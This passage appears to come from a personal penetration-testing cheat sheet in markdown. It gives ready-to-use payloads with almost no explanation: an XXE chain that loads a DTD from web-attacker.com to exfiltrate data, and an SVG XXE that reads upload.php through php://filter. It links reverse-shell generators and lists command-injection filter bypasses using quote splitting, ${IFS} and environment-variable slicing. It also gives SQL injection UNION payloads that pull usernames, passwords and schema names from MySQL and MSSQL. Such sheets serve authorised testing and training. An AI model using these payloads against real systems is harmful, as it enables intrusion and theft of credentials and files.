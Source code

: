 ```xml:malicious.dtd
%eval;
%exfil;
```
payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

#### SVG Image
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=upload.php"> ]>
<svg>&xxe;</svg>
```
## Reverse Shell
https://www.revshells.com/
<br/>
https://tex2e.github.io/reverse-shell-generator/index.html
### Bypass
```bash
w'h'o'am'i
w"h"o"am"i
```
#### Linux
```bash
# /
${PATH:0:1}
${PWD:0:1}
# white
${IFS}
$9
# ;
${LS_COLORS:10:1}
```
#### Windows
```powershell
# \
$env:HOMEPATH[0]

```
## SQLi
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection <br/>
https://portswigger.net/web-security/sql-injection/cheat-sheet
```bash
' or 1=1 in (select @@version) -- //
' OR 1=1 in (SELECT * FROM users) -- //

# colum
' ORDER BY 1-- //
' or 1=1 order by 6 #
' UNION SELECT database(), user(), @@version, null, null -- //
' union select 1,group_concat(schema_name),3,4,5,6 FROM information_schema.schemata #
' UNION SELECT null, username, password, description, null FROM users -- //
```
### MSSQL
#### Inject
```
test' union select 1,@@version,3,4,5,6--
test' union select 1,DB_NAME(),3,4,5,6--
```